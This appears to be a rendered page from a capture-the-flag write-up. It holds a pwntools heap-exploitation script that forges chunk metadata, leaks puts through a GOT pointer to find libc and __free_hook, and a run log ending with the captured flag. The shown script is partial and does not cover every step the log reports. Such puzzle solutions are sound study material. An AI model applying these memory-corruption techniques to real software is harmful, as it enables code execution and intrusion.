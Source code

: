 ```python

io = process(context.binary.path, env={"LD_PRELOAD":"./libc.so.6"})

eat_menu(io)

#alloc dummy buffer
alloc_buffer(io)

# alloc starting buffer
buf1_addr = alloc_buffer(io)

#alloc attack buffer
buf2_addr = alloc_buffer(io)

#alloc victim buffer
buf3_addr = alloc_buffer(io)

#prevent topchunk messing
buf4_addr = alloc_buffer(io)

free_buffer(io, "1")

payload  = "A"*96
payload += p64(0)
payload += p64(int(buf2_addr, 16) - 80) * 2
payload += p64(0x4141414141414141) * 8
payload += p64(0x140 | 0x1)
payload += p64(int(buf1_addr, 16) + 88) * 2

alloc_buffer(io, payload=payload)

io.sendline("5")
eat_menu(io)
io.sendline("2")

payload = p64(0x4444444444444444)
payload += p64(0x140)
io.sendline(payload)

recvd_buffer = io.recvuntil(":", timeout=1)
free_buffer(io, "3")

payload  = p64(0x4444444444444444)*4
payload += p64(0x601f80)

alloc_buffer(io, payload=payload)

io.sendline("3")
eat_menu(io)
io.sendline("5")
io.recvuntil("name: ")
aslr_puts = u64(io.recv(8)[:-2]+"\x00\x00")
libc_base = aslr_puts - libc.sym.puts
free_hook = libc_base + libc.sym.__free_hook

log.info("puts at: %x" % aslr_puts)
log.info("libc base is at: %x" % libc_base)
log.info("free hook is at: %x" % free_hook )

payload  = p64(0x4444444444444444)*4
payload += p64(free_hook)

eat_menu(io)
```

[INFO]:  Opening binary ./libc.so.6
[INFO]:  Opening binary ./proof_of_pwn
[INFO]:  Process started with PID 17148 ./proof_of_pwn
[INFO]:  required proof: 289510e3b590959fb0b0177fe57612d3
[INFO]:  libc base:      0x7f10f5e8e000
[INFO]:  system:         0x7f10f5ed3390
[INFO]:  binsh:          0x7f10f601ad57
[INFO]:  required proof: b222d1572a57e35c7416ff32e234f90a
[INFO]:  flag:           ptm{p00r_8rut3f0rc1ng_c4n_h3lp}
[INFO]:  Process 17148 exited with code -7